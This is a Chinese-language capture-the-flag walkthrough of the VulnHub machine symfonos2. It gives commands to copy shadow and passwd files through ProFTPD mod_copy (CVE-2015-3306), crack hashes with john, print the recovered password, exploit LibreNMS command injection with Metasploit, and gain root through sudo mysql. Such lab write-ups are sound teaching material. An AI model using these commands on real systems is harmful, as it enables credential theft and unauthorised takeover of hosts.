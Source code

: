 # symfonos2-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-2,331/

**Description**

OSCP-like Intermediate real life based machine designed to teach the importance of understanding a vulnerability. SHOULD work for both VMware and Virtualbox.

**知识点**
- smb 信息探测
- CVE-2015-3306
- CVE-2018-20434
- shadow 密码爆破

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.149` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.149
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/2.png)

21、22、80、139、445

怎么又有 smb,枚举下 smb 试试
```bash
enum4linux 192.168.141.149
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/3.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/4.png)

找到一个 `/anonymous` 文件夹和 2个用户,进去看看文件
```bash
smbclient //192.168.141.149/anonymous -U % -N
ls
cd backups\
ls
get log.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/5.png)

查看下 log.txt 可以发现很多线索

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/6.png)

开头告诉你 shadow 内容在 backups 目录下,然后后面是 smb 的配置,有个密码

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/7.png)

然后开始看 ftp 的配置,配置文件说明了是 ProFTPD 程序，还告诉你有个 aeolus 账号

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/8.png)

想起来之前 nmap 扫描 FTP 得到的版本号是 1.3.5,也许可以找找漏洞
```bash
searchsploit -w proftpd 1.3.5
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/9.png)

这3个都一样,漏洞编号为 CVE-2015-3306,但是这个漏洞只是可以复制文件,并不能直接进行命令执行,并且需要知道目标路径

---

# 中期-漏洞利用

这里我们从 log.txt 中可以得知 anonymous 用户的实际路径为 `/home/aeolus/share`,加上开头告诉你 shadow 文件在 backup 目录下,接下来就尝试将 backup目录下的 shadow 复制到 anonymous 用户目录下

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/10.png)

```bash
ftp 192.168.141.149
site cpfr /var/backups/shadow.bak
site cpto /home/aeolus/share/shadow.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/11.png)

成功了,上 smb 下载下来
```bash
smbclient //192.168.141.149/anonymous -U % -N
ls
get shadow.txt
exit
cat shadow.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/12.png)

下面用同样的方式下载 passwd 文件
```bash
ftp 192.168.141.149
site cpfr /etc/passwd
site cpto /home/aeolus/share/passwd.txt

smbclient //192.168.141.149/anonymous -U % -N
get passwd.txt
exit

mkdir /root/.john
cp passwd.txt /root/.john
cp shadow.txt /root/.john
cd /root/.john
unshadow passwd.txt shadow.txt > hash.txt
cat hash.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/13.png)

使用 john 开始跑 hash
```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/14.png)

只跑出 aeolus 一个用户的密码,使用这个凭证成功 SSH 上去
```
aeolus  sergioteamo
```

找找提权的可能
```bash
uname -a
sudo -l
find / -perm -u=s 2>/dev/null
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/15.png)

没成功,看看 web 方面

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/16.jpg)

又是啥都没有,直接翻 web 配置文件看看
```bash
cd /etc/apache2
cat apache2.conf
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/17.png)

看看这个端口监听文件
```bash
cat ports.conf
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/18.png)

端口 8080 有个无法从外部访问的网站,端口转发一下
```bash
socat TCP-LISTEN:5000,fork,reuseaddr tcp:127.0.0.1:8080
```

现在 8080 可以通过 5000 端口访问

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/19.png)

找找有没有可利用的漏洞
```bash
searchsploit -w librenms
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/20.png)

看了下,需要认证,结果用 aeolus  sergioteamo 可以登上去,那就用 msf 模块试试

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/21.png)

```bash
msfconsole
search librenms
use exploit/linux/http/librenms_addhost_cmd_inject
set RHOST 192.168.141.149
set LHOST 192.168.141.134
set PORT 5000
set USERNAME aeolus
set PASSWORD sergioteamo
run
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/22.png)

---

# 后期-提权

寻找提权利用点
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/23.png)

可以在 gtfobin 找到 mysql 提权的方法 https://gtfobins.github.io/gtfobins/mysql/
```
sudo mysql -e '\! /bin/sh'
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos2/24.png)

提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup
